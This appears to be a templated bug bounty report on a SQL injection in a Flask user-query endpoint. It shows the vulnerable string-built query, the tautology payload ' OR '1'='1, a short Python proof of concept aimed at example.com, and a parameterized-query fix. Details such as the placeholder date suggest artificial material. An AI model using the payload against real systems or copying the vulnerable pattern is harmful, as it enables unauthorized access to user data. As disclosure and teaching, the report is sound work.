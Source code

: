 # HackerOne Bug Report: SQL Injection in User Query

## Company Details
- **Company**: HackerOne
- **Program**: Public Bug Bounty
- **URL**: https://hackerone.com
- **Severity**: Low to Medium
- **Bounty Range**: $100-$1,000

## Vulnerability Details
- **Type**: SQL Injection
- **Location**: User Query Endpoint
- **Impact**: Potential unauthorized access to user data

## Description
The application contains a SQL injection vulnerability in the user query endpoint. The vulnerability exists because user input is directly concatenated into the SQL query without proper parameterization.

### Vulnerable Code
```python
@app.route('/users')
def get_users():
    name = request.args.get('name')
    query = f"SELECT * FROM users WHERE name = '{name}'"
    cursor.execute(query)
    return str(cursor.fetchall())
```

## Steps to Reproduce
1. Navigate to the users endpoint
2. Submit the following payload in the name parameter:
```
' OR '1'='1
```
3. Observe that the query returns all users due to the injected condition

## Proof of Concept
```python
import requests

# Normal request
r1 = requests.get('http://example.com/users?name=test')
print("Normal response:", r1.text)

# Malicious request
r2 = requests.get("http://example.com/users?name=' OR '1'='1")
print("Injected response:", r2.text)
```

## Impact
An attacker could:
1. Access unauthorized user data
2. Modify database queries
3. Potentially escalate to database administrator privileges

## Fix
Replace string concatenation with parameterized queries:

```python
@app.route('/users')
def get_users():
    name = request.args.get('name')
    query = "SELECT * FROM users WHERE name = ?"
    cursor.execute(query, (name,))
    return str(cursor.fetchall())
```

## Risk Factors
- **CVSS Score**: 6.5
- **Attack Complexity**: Low
- **Privileges Required**: None
- **User Interaction**: None

## References
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [CWE-89: SQL Injection](https://cwe.mitre.org/data/definitions/89.html)

## Timeline
- **Reported**: [Current Date]
- **Status**: New Submission

